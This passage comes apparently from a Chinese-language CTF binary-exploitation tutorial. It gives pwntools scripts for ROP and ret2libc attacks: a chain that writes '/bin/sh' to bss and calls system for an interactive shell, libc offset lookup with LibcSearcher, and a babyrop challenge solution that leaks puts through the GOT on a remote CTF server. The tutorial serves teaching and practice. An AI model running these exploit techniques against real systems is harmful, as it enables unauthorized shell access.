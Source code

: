 ```python
    payload1 += p64(gadget1)
    payload1 += p64(1) + p64(read_plt) + p64(8) + p64(bss_addr) + p64(0)
    payload1 += p64(gadget2)
    payload1 += '\x00'*56
    payload1 += p64(start)
    payload1 = payload1.ljust(200,'D')

    p.send(payload1)
    sleep(1)
    p.send("/bin/sh\x00")
    sleep(1)

    payload2 = 'C'*72
    payload2 += p64(pop_rdi) + p64(bss_addr) + p64(system_addr)
    payload2 = payload2.ljust(200,"D")
    p.send(payload2)
    p.interactive()
```

## 其他获取libc的方法

[网站](https://libc.blukat.me)可以通过泄露的地址来查询

### LibcSearcher

通过泄露出系统函数(read,puts等)来获取system以及其他函数、字符串的地址

```python
    libc = LibcSearcher('read',read_addr)
    libc_base = read_addr - libc.dump('read')
    system_addr = libc_base + libc.dump('system')
    binsh_addr = libc_base + libc.dump('bin_string_addr')
```

例，`~安恒杯2020新春祈福赛\babyrop`

```python
    from pwn import *
    from LibcSearcher import *

    # p = process('/home/nop/Desktop/babyrop')
    p = remote('183.129.189.60',10011)
    elf = ELF('/home/nop/Desktop/babyrop')

    put_plt = elf.symbols['puts']
    log.info("put_plt = %#x",put_plt)
    put_got = elf.got['puts']
    log.info("put_got = %#x",put_got)
    read_plt = elf.symbols['read']
    log.info("read_plt = %#x",read_plt)

    payload1 = 'A'*0x20 + p32(0x66666666)
    p.send(payload1)
    p.recv()

    payload2 = 'B'*0xC + '-1' + 'B'*6
    payload2 += p32(put_plt) + p32(0x08048400) + p32(put_got)
    p.send(payload2)

    p.recvuntil('name?\n')  # 连上服务器之后程序会输出：'What's you name?\n'，然后才是泄露的地址
    put_addr = u32(p.recv()[:4].ljust(4,'\x00'))
    log.info("put_addr = %#x",put_addr)

    libc = LibcSearcher('puts',put_addr)
    libc_base = put_addr - libc.dump('puts')
```